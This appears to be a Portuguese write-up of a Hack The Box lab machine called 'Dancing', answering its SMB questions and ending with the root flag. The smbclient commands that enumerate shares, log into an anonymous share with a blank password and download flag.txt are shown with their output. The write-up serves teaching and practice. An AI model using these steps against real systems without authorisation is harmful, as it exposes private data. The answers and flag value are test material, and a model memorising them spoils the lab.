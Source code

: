 
---
## Task 1

O que significa a sigla de três letras SMB?
R: Server Message Block


### Task 2

Em qual porta o SMB opera?  
**R:** 445

---

### Task 3

Qual é o nome do serviço da porta 445 que apareceu em nosso scan com Nmap?  
**R:** microsoft-ds?

---

### Task 4

Qual é a _flag_ ou _switch_ que podemos usar com a ferramenta `smbclient` para **listar** os compartilhamentos disponíveis em "Dancing"?
R: -L

---

### Task 5

Quantos compartilhamentos existem em "Dancing"?
Comando: smbclient -L (IP)

Saida

```
Password for [WORKGROUP\htb-mp-1486218]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      

```
R: 4

---

### Task 6

Qual é o nome do compartilhamento que conseguimos acessar no final usando senha em branco?
R: workshares

---

### Task 7

Qual é o comando que podemos usar dentro do shell SMB para baixar os arquivos que encontramos?
R: get

---

### Submit root flag

Enviar a flag de root.

Comando: 

`smbclient \\\\IP\\workshares`

A falha é um **compartilhamento SMB acessível anonimamente (sem credenciais)**, também chamada de **null session** ou **anonymous share access**.  
Isso representa uma **grave falha de configuração**, pois qualquer usuário da rede pode acessar os dados sem autenticação.

Dentro do SMB

Comandos

```
smb: \> ls
  .                                   D        0  Mon Mar 29 03:22:01 2021
  ..                                  D        0  Mon Mar 29 03:22:01 2021
  Amy.J                               D        0  Mon Mar 29 04:08:24 2021
  James.P                             D        0  Thu Jun  3 03:38:03 2021

		5114111 blocks of size 4096. 1753642 blocks available
		
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 03:38:03 2021
  ..                                  D        0  Thu Jun  3 03:38:03 2021
  flag.txt                            A       32  Mon Mar 29 04:26:57 2021
                   D        0  Thu Jun  3 03:38:03 2021
        5114111 blocks of size 4096. 1753642 blocks available

smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0.8 KiloBytes/sec) (average 1.7 KiloBytes/sec)
smb: \James.P\> exit
```

No bash:
`cat flag.txt`

R: 5f61c10dffbc77a704d76016a22f1664


